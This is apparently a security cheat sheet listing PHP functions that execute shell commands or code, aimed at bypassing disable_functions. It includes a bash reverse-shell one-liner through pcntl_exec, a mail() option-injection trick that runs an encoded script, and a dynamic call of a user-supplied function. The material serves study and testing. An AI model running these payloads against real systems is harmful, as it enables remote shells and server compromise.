 PHP - Useful Functions & disable_functions/open_basedir bypass
PHP Command & Code Execution
PHP Command Execution

exec - Returns last line of commands output

echo exec("uname  -a");

passthru - Passes commands output directly to the browser

echo passthru("uname -a");

system - Passes commands output directly to the browser and returns last line

echo system("uname -a");

shell_exec - Returns commands output

echo shell_exec("uname -a");

`` (backticks) - Same as shell_exec()

echo `uname -a`

popen - Opens read or write pipe to process of a command

echo fread(popen("/bin/ls /", "r"), 4096);

proc_open - Similar to popen() but greater degree of control

proc_close(proc_open("uname -a",array(),$something));

pcntl_exec - Executes a program (by default in modern and not so modern PHP you need to load the pcntl.so module to use this function)

pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);

mail / mb_send_mail - This function is used to send mails, but it can also be abused to inject arbitrary commands inside the $options parameter. This is because php mail function usually call sendmail binary inside the system and it allows you to put extra options. However, you won't be able to see the output of the executed command, so it's recommended to create shell script that writes the output to a file, execute it using mail, and print the output:

file_put_contents('/www/readflag.sh', base64_decode('IyEvYmluL3NoCi9yZWFkZmxhZyA+IC90bXAvZmxhZy50eHQKCg==')); chmod('/www/readflag.sh', 0777);  mail('', '', '', '', '-H \"exec /www/readflag.sh\"'); echo file_get_contents('/tmp/flag.txt');

dl - This function can be used to dynamically load a PHP extension. This function won't be present always, so you should check if it's available before trying to exploit it. Read this page to learn how to exploit this function.
PHP Code Execution

Apart from eval there are other ways to execute PHP code: include/require can be used for remote code execution in the form of Local File Include and Remote File Include vulnerabilities.
eval()
assert() - identical to eval()
preg_replace('/.*/e',...) - /e does an eval() on the match
create_function() - Create a function and use eval()
include()
include_once()
require()
require_once()
$_GET['func_name']($_GET['argument']);
$func = new ReflectionFunction($_GET['func_name']);
$func->invoke();  or
$func->invokeArgs(array());
serialize/unserialize
disable_functions & open_basedir
